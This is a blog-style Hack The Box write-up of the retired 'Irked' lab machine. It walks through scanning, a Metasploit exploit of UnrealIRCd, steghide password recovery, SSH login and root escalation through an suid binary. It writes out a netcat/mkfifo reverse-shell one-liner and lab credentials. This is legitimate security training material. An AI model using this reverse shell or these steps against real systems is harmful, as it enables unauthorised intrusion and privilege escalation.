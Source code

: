 ```yaml
---
layout: post
title: Hack The Box - Irked
categories: hack-the-box
image: /hackthebox/irked/0.png
---
```

<hr>
### Quick Summary
#### Hey guys, today Irked retired and here's my write-up about it. It was an easy straightforward machine, no rabbit holes and such things. To get an initial shell on the box we will exploit an RCE vulnerable irc server called `UnrealIRCd`. After getting a shell we will find a backup file which has a password. We will use that password to get a hidden text file from an image (steg). That text file contains another password which we will use to get ssh access as another user. Finally for privilege escalation there is an `suid` binary that executes a file, and we control that file so we can get a reverse shell as root. It's a linux box and its ip is `10.10.10.117`. I added it to `/etc/hosts` as `irked.htb`. Let's jump right in !
![](/images/hackthebox/irked/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services :
`nmap -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/1.png)
#### There is ssh running on port 22 and http running on port 80. Let's take a look at http.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/irked/2.png)
#### There is only that image and a message saying : `IRC is almost working!`, Source also has nothing interesting :
![](/images/hackthebox/irked/3.png)
#### We have a hint which is irc, let's check that. If we didn't find anything then we will continue with http.
<br>
<hr>
### IRC
#### I searched for irc and found [here](https://en.wikipedia.org/wiki/Internet_Relay_Chat#Technical_information) That if there is an irc server running on the machine, then probably it will be in the port range from 6000 to 7000. So I ran another nmap scan :
`nmap -p 6000-7000 -sV -sT -sC irked.htb`
![](/images/hackthebox/irked/4.png)
#### There is an irc server running on port 6697 called `UnrealIRCd`. There are some known vulnerabilities for `UnrealIRCd`, One of them is a Remote Code Execution and there is a metasploit module for it :
![](/images/hackthebox/irked/5.png)
#### Let's check if the server is vulnerable to it.
![](/images/hackthebox/irked/6.png)
<br>
<br>
![](/images/hackthebox/irked/7.png)
#### It worked and we got a shell as `ircd` :
![](/images/hackthebox/irked/8.png)
<hr>
### Steg in `irked.jpg`, SSH as `djmardov`
#### There are two users on the box : `ircd` and `djmardov`. I checked `/home/ircd` and there was nothing interesting. In `/home/djmardov` I didn't find `user.txt` :
![](/images/hackthebox/irked/9.png)
#### I tried to go into `.ssh` but I got `Permission denied` :
![](/images/hackthebox/irked/10.png)
#### I checked other directories like `Desktop`, `Downloads`, `Documents` etc... And in `Documents` I found `user.txt` and a file called `.backup` :
![](/images/hackthebox/irked/11.png)
<br>
<br>
`cat .backup`
![](/images/hackthebox/irked/12.png)
```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
#### It gives us a hint about some steg backup, we also get something that looks like a password : `UPupDOWNdownLRlrBAbaSSss`. But where will we use that password ? Remember the image we saw earlier on that apache server ?
![](/images/hackthebox/irked/2.png)
<br>
<br>
![](/images/hackthebox/irked/3.png)
#### I downloaded it then used `steghide` to check if there is any hidden file.
#### Note : I have a list for some steganography tools, If you are not familiar with steg you can check it [here](/lists/stego).
`wget http://irked.htb/irked.jpg`
![](/images/hackthebox/irked/13.png)
<br>
<br>
`steghide info irked.jpg`
![](/images/hackthebox/irked/14.png)
#### There is a hidden text file called `pass.txt`, Let's extract it :
`steghide extract -sf irked.jpg`
![](/images/hackthebox/irked/15.png)
<br>
<br>
`cat pass.txt`
![](/images/hackthebox/irked/16.png)
#### We got the password : `Kab6h+m+bbp2J:HG`, let's try to login as `djmardov` :
![](/images/hackthebox/irked/17.png)
#### We owned user !
<br>
<hr>
### Exploiting `viewuser`, Privilege Escalation to `root`
#### After some enumeration, I searched for `suid` binaries and in `/usr/bin` I found a binary called `viewuser`.
`find /usr/bin/ -perm -4000`
![](/images/hackthebox/irked/18.png)
#### It seems interesting so I decided to check it.
`viewuser`
![](/images/hackthebox/irked/19.png)
#### It shows logged in users, but we don't care about that. The only thing we care about is the last line : `/tmp/listusers: 1: /tmp/listusers: djmardov: not found`. It seems like it was trying to do something with the file `/tmp/listusers` which doesn't exist. I downloaded `viewuser` to try some stuff :
`scp djmardov@irked.htb:/usr/bin/viewuser ./`
![](/images/hackthebox/irked/20.png)
#### When I did `ltrace` on the binary I found that it executes `/tmp/listusers` :
![](/images/hackthebox/irked/21.png)
#### And since this binary runs as root, then it also executes `/tmp/listusers` as root. So we can simply get a reverse shell by putting the payload in `/tmp/listusers`, Then after running the binary again it should execute the payload.
`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f" > /tmp/listusers`
![](/images/hackthebox/irked/22.png)
#### Everything is fine, let's check our listener :
![](/images/hackthebox/irked/23.png)
<br>
<br>
![](/images/hackthebox/irked/24.png)
#### Now we own root ! 
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Teacher](/hack-the-box/teacher/)
<hr>
